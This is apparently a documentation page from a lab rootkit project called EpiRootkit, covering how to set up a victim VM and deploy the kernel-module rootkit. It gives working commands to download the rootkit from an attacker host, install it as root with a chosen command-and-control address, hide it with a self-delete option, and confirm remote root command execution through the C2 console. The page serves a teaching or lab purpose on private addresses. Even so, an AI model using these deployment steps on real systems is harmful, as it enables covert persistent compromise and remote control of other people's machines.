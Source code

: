 ```yaml
---
title: "Victim VM Setup"
description: "Configure the victim VM and deploy the EpiRootkit"
icon: "shield"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 204
---
```


# Victim VM Setup

Deploy the EpiRootkit kernel module on the victim system.

## Prerequisites

1. **Host setup complete**: [Host Environment Setup]({{< relref "environment.md" >}})
2. **VM downloaded**: `vm/victim.qcow2` in project root
3. **VM launched**: `sudo ./scripts/run_vms.sh victim`

## VM Access

**Connection Details:**
- **IP Address**: 192.168.200.10 (static)
- **Username**: `victim` / **Password**: `jules`
- **Target**: Ubuntu 20.04 LTS with kernel 5.4.0

## Deployment Process

### 1. Receive Payload
Get the rootkit files from the attacker VM:

```bash
# Option A: HTTP download
wget http://192.168.200.11:8080/epirootkit.ko
wget http://192.168.200.11:8080/deploy_rootkit.sh

# Option B: SCP transfer
# Files transferred by attacker to victim@192.168.200.10:~/

# Option C: Web UI upload
# Use attacker's web interface file transfer panel
```

### 2. Deploy Rootkit
```bash
# Basic deployment (connects to 192.168.200.11:4444)
sudo ./deploy_rootkit.sh

# Custom C2 server
sudo ./deploy_rootkit.sh address=IP port=PORT

# Stealth deployment (self-destructs)
sudo ./deploy_rootkit.sh --self-delete
```

### 3. Verify Connection
Switch to attacker VM C2 server:
```bash
c2-server$ ls
# • Client-1 - UNAUTHENTICATED - Last seen: Just now

c2-server$ auth Client-1 password
c2-server$ exec Client-1 whoami
# Exit code: 0, Output: root
```

## Management

```bash
# Check status
sudo ./deploy_rootkit.sh status

# Remove rootkit
sudo ./deploy_rootkit.sh uninstall
```

For detailed deployment script options, see [EpiRootkit Deployment](../../05-epirootkit/deployment.md).
